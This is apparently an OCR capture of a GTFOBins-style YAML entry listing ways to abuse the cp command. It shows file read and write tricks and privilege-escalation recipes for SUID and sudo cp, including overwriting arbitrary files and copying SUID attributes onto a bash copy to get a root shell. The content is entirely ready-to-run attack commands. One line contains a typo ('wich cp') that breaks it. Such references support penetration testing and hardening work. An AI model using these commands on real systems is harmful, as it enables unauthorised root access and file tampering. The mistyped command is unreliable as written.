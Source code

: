 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | cp /dev/stdin "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo "DATA" | ./cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
    - description: This can copy cp attributes and permissions to create a new file with SUID privileges like bash
      code: |
        cp /bin/bash /tmp/bash
        cp --attributes-only --preserve=all `wich cp` /tmp/bash
  sudo:
    - code: |
        LFILE=file_to_write
        echo "DATA" | sudo cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
---
```

